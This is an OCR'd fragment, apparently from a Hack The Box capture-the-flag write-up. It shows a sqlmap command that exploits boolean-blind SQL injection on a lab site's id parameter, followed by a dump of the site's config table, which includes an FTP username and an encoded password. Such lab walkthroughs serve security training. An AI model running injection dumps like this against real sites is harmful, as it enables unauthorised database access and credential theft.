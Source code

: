 ```
# sqlmap -u https://www.nestedflanders.htb/index.php?id=587 -T config,filepath,idname --technique B -D neddy --dump --threads 10
[...]
Table: config
+-----+-------------------------+--------------------------------------------------------------------------+
| id  | option_name             | option_value                                                             |
+-----+-------------------------+--------------------------------------------------------------------------+
| 54  | offline                 | 0                                                                        |
| 55  | offline_message         | Site offline, please come back later                                     |
| 56  | display_offline_message | 0                                                                        |
| 57  | offline_image           | <blank>                                                                  |
| 58  | sitename                | NestedFlanders                                                           |
| 59  | editor                  | tinymce                                                                  |
| 60  | captcha                 | 0                                                                        |
| 61  | list_limit              | 20                                                                       |
| 62  | access                  | 1                                                                        |
| 63  | debug                   | 0                                                                        |
| 64  | debug_lang              | 0                                                                        |
| 65  | dbtype                  | mysqli                                                                   |
| 66  | host                    | localhost                                                                |
| 67  | live_site               | <blank>                                                                  |
| 68  | gzip                    | 0                                                                        |
| 69  | error_reporting         | default                                                                  |
| 70  | ftp_host                | 127.0.0.1                                                                |
| 71  | ftp_port                | 21                                                                       |
| 72  | ftp_user                | flanders                                                                 |
| 73  | ftp_pass                | 0e1aff658d8614fd0eac6705bb69fb684f6790299e4cf01e1b90b1a287a94ffcde451466 |
| 74  | ftp_root                | /                                                                        |
| 75  | ftp_enable              | 1                                                                        |
| 76  | offset                  | UTC                                                                      |
| 77  | mailonline              | 1                                                                        |
| 78  | mailer                  | mail                                                                     |
| 79  | mailfrom                | nested@nestedflanders.htb                                                |
```